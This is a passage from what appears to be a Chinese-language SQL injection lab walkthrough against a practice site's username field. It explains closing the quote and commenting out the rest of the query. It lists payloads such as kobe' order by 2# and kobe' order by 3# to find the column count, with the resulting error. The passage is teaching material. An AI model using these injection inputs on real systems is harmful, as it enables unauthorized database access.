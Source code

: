 ```
select 字段1,字段2 from member where username='输入的内容'
```

可以看出，输入内容在单引号里面

- 我们要把这个单引号闭合
- 直接在输入的内容后面加上**单引号**
- 然后再加 **#** 号用于注释后面的语句



```
#查看页面变化，判断sql注入类别 
kobe #member表中的字段
kobe'#  
```

![image-20220125150241269](https://gitee.com/xxb667/img/raw/master/img/image-20220125150241269.png)

输入

```
kobe'#  
```

内容不改变

![image-20220125150425617](https://gitee.com/xxb667/img/raw/master/img/image-20220125150425617.png)

### 确定字段数

- 2的时候正常显示
- 3的时候报错

```
#确定字段数【2】 
kobe' order by 2# 正常显示

```

![image-20220125150811012](https://gitee.com/xxb667/img/raw/master/img/image-20220125150811012.png)

报错信息

```
kobe' order by 3# 报错
```

```
Unknown column '3' in 'order clause'
```

![image-20220125150909401](https://gitee.com/xxb667/img/raw/master/img/image-20220125150909401.png)

### 查看显示位

可用于判断查找的字段个数
